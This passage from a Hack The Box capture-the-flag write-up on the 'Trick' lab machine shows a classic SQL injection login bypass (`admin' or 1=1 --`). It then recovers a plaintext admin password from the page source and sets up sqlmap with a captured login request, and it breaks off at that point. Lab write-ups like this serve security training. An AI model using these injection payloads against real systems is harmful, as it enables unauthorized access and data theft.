After trying the standard basic SQL injections, we find that using `admin' or 1=1 --`  as the username and anything as the password works!

![trick\_4](./attachments/trick_4.png)
![trick_5](./attachments/trick_5.png|trick_5.png)

"Users" tab on the admin panel provides a function to edit user's properties including password.

```html
<input type="password" name="password" id="password" class="form-control" value="SuperGucciRainbowCake" required="">
```
With developer tool, I could read the plain text of the admin user `Enemigosss` password : `SuperGucciRainbowCake`

To enumerate its database, let's try using `sqlmap`.
First, using `Burpsuite` I captured and saved the login request.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat req.txt   
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://preprod-payroll.trick.htb
Connection: keep-alive
Referer: http://preprod-payroll.trick.htb/login.php
Cookie: PHPSESSID=pl6dk0mbm0ksc1bl3l8atu2m62

username=*&password=test
```
